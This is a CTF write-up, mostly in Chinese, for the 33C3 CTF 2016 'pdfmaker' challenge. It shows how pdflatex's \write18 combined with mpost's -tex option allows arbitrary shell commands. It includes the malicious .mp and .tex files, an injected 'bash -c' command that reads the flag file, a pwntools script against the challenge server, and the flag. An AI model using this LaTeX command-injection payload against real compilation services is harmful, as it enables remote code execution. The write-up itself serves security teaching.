 ```yaml
---
title: '[33C3 CTF 2016] pdfmaker 75'
author: bruce30262
tags:
  - Misc
  - pdflatext
  - 33C3 CTF 2016
categories:
  - write-ups
date: 2016-12-31 08:14:00
---
```

## Info  
> Category: Misc
> Point: 75
> Author: bruce30262 @ BambooFox
> 
> Description: 
> Just a tiny [application](https://gist.github.com/bruce30262/80b089e24d3a34862fe78892c63d8dcf), that lets the user write some files and compile them with pdflatex. 
> What can possibly go wrong?
> nc 78.46.224.91 24242

## Analyzing
根據題目給的原始碼，我們可以得知這是一個可以讓使用者進行讀寫以及編譯檔案的 service。

* `create`: 製作檔案，檔案類型有: `.log`, `.tex`, `.mb`, `.sty` & `.bib`
* `show`: 顯示指定的檔案內容
* `compile`: 使用 `pdflatext` 編譯一個檔案

解題的過程中 **mike** 找到了一個有用的連結: [Pwning coworkers thanks to LaTeX](http://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/)

簡單來說就是透過製作惡意的 `.mp` 和 `.tex` 檔案，我們可以利用 `pdflatext` 在 compile 檔案的時候，透過執行 `mpost` 指令來達到執行任意 command 的效果。

## Solution
基本上只要照著連結裡的方式做即可:
1. create 一個惡意的 `.mp` 檔
2. create 一個惡意的 `.tex` 檔，將裡面的指令改為 `(cat${IFS}$(ls|grep${IFS}33C3))>qqq.log`。這行 command 會將 flag 的內容存到 qqq.log 裡頭
3. 透過 Compile 惡意的 `.tex` 檔來執行我們的 command
4. show qqq.log，得到 flag

final exploit:
```txt sss.mp
verbatimtex
\documentclass{minimal}\begin{document}
etex beginfig (1) label(btex blah etex, origin);
endfig; \end{document} bye
```

```txt aaa.tex
\documentclass{article}\begin{document}
\immediate\write18{mpost -ini "-tex=bash -c (cat${IFS}$(ls|grep${IFS}33C3))>qqq.log" "sss.mp"}
\end{document}
```

```python exp.py
from pwn import *

r = remote("78.46.224.91", 24242)

log.info("creating sss.mp...")
r.sendlineafter(">", "create mp sss")
r.recvline()
f = open("sss.mp", "r")
for line in f:
    r.sendline(line.strip())
r.sendline("\q")
f.close()

log.info("creating aaa.tex...")
r.sendlineafter(">", "create tex aaa")
r.recvline()
f = open("aaa.tex", "r")
for line in f:
    r.sendline(line.strip())
r.sendline("\q")
f.close()

r.sendlineafter(">", "compile aaa")
r.sendlineafter(">", "show log qqq")

r.interactive()
```

**Don't take LaTEX files from strangers!!**

flag: `33C3_pdflatex_1s_t0t4lly_s3cur3!`
